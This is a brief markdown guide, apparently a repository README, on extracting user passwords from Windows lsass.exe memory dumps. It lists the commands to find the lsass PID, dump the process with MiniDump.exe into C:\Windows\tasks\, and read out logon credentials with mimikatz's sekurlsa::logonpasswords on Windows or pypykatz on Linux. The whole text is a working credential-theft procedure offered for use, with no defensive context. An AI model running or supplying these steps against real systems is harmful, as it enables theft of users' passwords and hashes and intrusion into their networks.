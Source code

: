 # Extracting user passwords from lsass.exe dumps

Get the PID of the lsass process with `tasklist`

```
tasklist /FI "IMAGENAME eq lsass.exe"
```

Run MiniDump.exe with the PID of lsass.exe as the first argument.

```
MiniDump.exe <PID>
```
The dump file will be saved as lsass.dmp in `C:\Windows\tasks\`.
Then read the dump file with mimikatz and pypykatz and dump the passwords.

From Windows

```
mimikatz.exe "sekurlsa::minidump C:\Windows\tasks\lsass.dmp" "sekurlsa::logonpasswords"
```

From Linux

```
pypykatz lsa minidump lsass.dmp
```